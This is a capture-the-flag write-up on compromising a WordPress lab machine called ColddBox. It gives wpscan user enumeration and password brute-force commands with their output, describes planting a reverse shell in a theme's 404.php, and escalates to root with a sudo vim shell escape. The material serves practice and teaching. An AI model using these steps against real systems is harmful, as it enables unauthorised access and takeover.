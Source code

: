 
!!! example "Description"

    <p id="desc" style="font-size:15px"></p>

In this CTF, I was able to successfully exploit a WordPress server using a combination of tools and techniques. In this blog post, I will share my experience and provide insights on how I was able to get the initial foothold, escalate my privileges, and finally became root.

## <b>Scanning</b>

* Assigned IP address: &nbsp; <b id="ip" style="color:purple"></b>
  
* Open Ports: 

| <p style="font-size:14px; color: black">PORT</p>      | <p style="font-size:14px; color: black">SERVICE</p> |  <p style="font-size:14px; color: black">DESCRIPTION                          |
| :---------: | :---------: | :----------------------------------: |
| <p id="p1" style="font-size:14px; color: purple"></p>      | <p id="s1" style="font-size:14px; color: purple"></p>  |<p id="d1" style="font-size:14px; color: purple"></p>   |
| <p id="p2" style="font-size:14px;  color: purple"></p>     | <p id="s2" style="font-size:14px; color: purple"></p>  |<p id="d2" style="font-size:14px; color: purple"></p> |


* Nmap Report:
  ```sh linenums="1" hl_lines="6 10"
  # Nmap 7.93 scan initiated Mon Feb 20 13:34:05 2023 as: nmap -sC -sV -O -oN nmap.txt 10.10.237.179
    Nmap scan report for 10.10.237.179
    Host is up (0.15s latency).
    Not shown: 999 closed tcp ports (reset)
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-generator: WordPress 4.1.31
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: ColddBox | One more machine
    4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 4ebf98c09bc536808c96e8969565973b (RSA)
    |   256 8817f1a844f7f8062fd34f733298c7c5 (ECDSA)
    |_  256 f2fc6c750820b1b2512d94d694d7514f (ED25519)
    No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
    TCP/IP fingerprint:
    OS:SCAN(V=7.93%E=4%D=2/20%OT=80%CT=1%CU=42564%PV=Y%DS=5%DC=I%G=Y%TM=63F36FE
    OS:8%P=aarch64-unknown-linux-gnu)SEQ(SP=103%GCD=1%ISR=10E%TI=Z%CI=I%II=I%TS
    OS:=8)OPS(O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M
    OS:505ST11NW7%O6=M505ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68
    OS:DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=
    OS:S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q
    OS:=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A
    OS:%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y
    OS:%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T
    OS:=40%CD=S)

    Network Distance: 5 hops

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Mon Feb 20 08:04:40 2023 -- 1 IP address (1 host up) scanned in -19765.28 seconds
  ```

## <b>Enumeration</b>

The first step in this process was to enumerate the webserver (WordPress) with its vulnerable plugins, themes, and users using wpscan. 

!!! tip "User Enumeration" 
    <p id="desc" style="font-size:20px">```wpscan --url http://$IP -e  u```</p>

After running this command, it returned c0ldd, philip, and hugo as usernames.

```sh linenums="1" hl_lines="50 54 58"
[+] URL: http://10.10.237.179/ [10.10.237.179]
[+] Started: Mon Feb 20 13:13:31 2023

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.237.179/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.237.179/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] WordPress version 4.1.31 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.10.237.179/?feed=rss2, <generator>https://wordpress.org/?v=4.1.31</generator>
 |  - http://10.10.237.179/?feed=comments-rss2, <generator>https://wordpress.org/?v=4.1.31</generator>

[+] WordPress theme in use: twentyfifteen
 | Location: http://10.10.237.179/wp-content/themes/twentyfifteen/
 | Last Updated: 2022-11-02T00:00:00.000Z
 | Readme: http://10.10.237.179/wp-content/themes/twentyfifteen/readme.txt
 | [!] The version is out of date, the latest version is 3.3
 | Style URL: http://10.10.237.179/wp-content/themes/twentyfifteen/style.css?ver=4.1.31
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen simple, st...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <========================================> (10 / 10) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] the cold in person
 | Found By: Rss Generator (Passive Detection)

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

```

I decided to brute force the usernames and passwords using wpscan's built-in feature.

!!! bug "Brute Force" 
    <p id="desc" style="font-size:20px">```wpscan --url $IP -U 'c0ldd,hugo,philip' -P /usr/share/seclists/Passwords/probable-v2-top12000.txt```</p>
    

```sh linenums="1" hl_lines="7 9 10"
[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:04 <=======================================> (137 / 137) 100.00% Time: 00:00:04

[i] No Config Backups Found.

[+] Performing password attack on Wp Login against 3 user/s
[SUCCESS] - c0ldd / 9876543210                                                                                        
^Cying philip / beanie Time: 00:09:52 <========                                 > (8839 / 40665) 21.73%  ETA: 00:35:35
[!] Valid Combinations Found:
 | Username: c0ldd, Password: 9876543210

[!] No WPScan API Token given, as a result vulnerability data has not been output.(8844 / 40665) 21.74%  ETA: 00:35:34
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon Feb 20 13:32:05 2023
[+] Requests Done: 8984
[+] Cached Requests: 38
[+] Data Sent: 2.909 MB
[+] Data Received: 32.484 MB
[+] Memory used: 304.16 MB
[+] Elapsed time: 00:09:59
```
## <b>Initial Access</b>

Quickly, I directed to ```/wp-login.php``` to verify login with the harvested credentials -- {++c0ld:9876543210++}

<img id="image1" />

After successfully logging in using the credentials for `c0ldd`, I edited the 404.php file in the appearance tab of the themes section to add a reverse shell. This allowed me to get my initial foothold into the web server. 

<img id="image2" />

I opened a listener on another tab and then opened the 404.php file in my browser. As a result, I gained access to the server with the `www-data` privilege.

<img id="image3" />
<img id="image4" />

## <b>Privilege Escalation</b>

### <b>Gaining User access</b>

As www-data, I didn't initially have access to any juicy information. However, I was able to run linpeas.sh, which helped me to find some credentials that were left in the wp-config.php file. 

<img id="image5" />

 I copied the username and password and attempted to access the `3306` port that was running on `127.0.0.1` but had no luck. Finally, I tried using the same credentials to log in to the `c0ldd` account. This was a success, and I was able to escalate my privilege from `www-data` to `c0ldd`.

### <b>Gaining Root access</b>

As `c0ldd`, I ran sudo -l as I already knew his password. The output showed that Vim could be run as sudo.

<img id="image6" />

With this knowledge, I was able to execute the command 

!!! success "Sudo Command"
    <p id="desc" style="font-size:20px">```sudo vim -c ':!/bin/sh'```</p>

from [GTFOBINS](https://gtfobins.github.io/gtfobins/vim/#sudo). This allowed me to edit a file that was owned by root, thereby giving me access to the root user. As a result, I was able to escalate my privilege once again and become root.

<script>
// JSON object
const data = {
    "desc": "An easy level machine with multiple ways to escalate privileges.",
    "ip":  "10.10.237.179",
    "ports": "80/tcp,http,Apache httpd 2.4.18;4512/tcp,ssh,OpenSSH 7.2p2 Ubuntu 4ubuntu2.10",
    "difficulty":"easy",
    "id": "1"
}


function updateHTML() {

    const keys = Object.keys(data);
    const values = Object.values(data);

    for(var z=0; z < keys.length; z++){

        if(keys[z] === "ports"){
            const ports = data.ports.split(';');
            for(var i = 0; i < ports.length; i++){
                document.getElementById("p"+(i+1)).innerHTML = ports[i].split(',')[0].toUpperCase();
                document.getElementById("s"+(i+1)).innerHTML = ports[i].split(',')[1].toUpperCase();
                document.getElementById("d"+(i+1)).innerHTML = ports[i].split(',')[2];
            }
        }
        else{
            try{
            document.getElementById(keys[z]).innerHTML = values[z];
            }
            catch(error){
                console.log(values[z]);
            }
        }
    }

    // replace the values with your specific filenames and number of images and img tags
    const numImages = 5;
    const numImgTags = document.getElementsByTagName('img').length;

    for (let i = 1; i <= numImgTags; i++) {
    const imgTag = document.getElementById('image' + i);
        if (imgTag) {
            imgTag.src = '../images/'+data.difficulty[0]+data.id+'-image' + i + '.png';
        }
    }


}

updateHTML();
</script>